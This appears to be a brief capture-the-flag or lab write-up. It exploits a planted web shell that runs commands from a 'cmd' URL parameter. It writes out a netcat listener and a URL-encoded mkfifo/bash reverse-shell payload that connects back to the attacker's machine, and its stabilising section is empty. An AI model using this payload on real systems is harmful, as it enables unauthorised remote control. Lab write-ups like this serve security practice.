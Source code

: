 ## Access

### Steps to reproduce

#### Post-exploitation

![alt text](image-1.png)

- there is a shell command with get parameter 'cmd' in this file!
```
http://10.10.165.221:22/nnxhweOV/index.php?cmd=ls
```

#### Initial Access

```
nc -lvnp 4444
```

- enter in browser:
```
http://10.10.165.221:22/nnxhweOV/index.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.9.3.63%204444%20%3E%2Ftmp%2Ff
```

![alt text](image-2.png)

#### Stabalizing

```

```